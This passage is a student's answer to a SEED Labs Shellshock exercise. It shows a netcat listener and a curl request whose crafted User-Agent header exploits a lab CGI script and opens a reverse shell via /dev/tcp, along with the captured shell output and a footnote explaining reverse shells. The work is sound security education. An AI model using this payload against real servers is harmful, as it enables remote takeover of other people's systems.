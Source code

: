 ```console
Segmentation fault (core dumped)
root@adb5168e1e79:/# ls -l /tmp
total 0
```

### Task 4: Getting a Reverse Shell via Shellshock Attack

The Shellshock vulnerability allows attacks to run arbitrary commands on the target machine. In real attacks, instead of hard-coding the command in the attack, attackers often choose to run a shell command, so they can use this shell to run other commands, for as long as the shell program is alive. To achieve this goal, attackers need to run a reverse shell[^1]. Demonstrate how you can get a reverse shell from the victim using the Shellshock attack.

**Ans:** For this task, we need two terminal windows, one running the `netcat` utility and the other running the shell command. After I ran <code>nc -v -l 9090</code>, I received the error message: "<code>getnameinfo: Temporary failure in name resolution</code>". I then appended the `-n` option:
```console
# In the first terminal window:
$ nc -nv -l 9090
Listening on 0.0.0.0 9090

# In the second terminal window:
$ curl -A "() { echo vulnerable; }; echo Content_type: text/plain; echo; echo; /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

```

The second terminal window kept spinning, and a reverse shell was created in the first terminal window:

```console
Connection received on 10.9.0.80 52520
bash: cannot set terminal process group (32): Inappropriate ioctl for device
bash: no job control in this shell
www-data@54b33eb364c0:/usr/lib/cgi-bin$
```

## Notes

[^1]: Reverse shell is a shell process started on a machine, with its input and output being controlled by somebody from a remote computer. Basically, the shell runs on the victim's machine, but it takes input from the attacker machine and also prints its output on the attacker's machine. Reverse shell gives attackers a convenient way to run commands on a compromised machine. The key idea of reverse shell is to redirects its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network connection.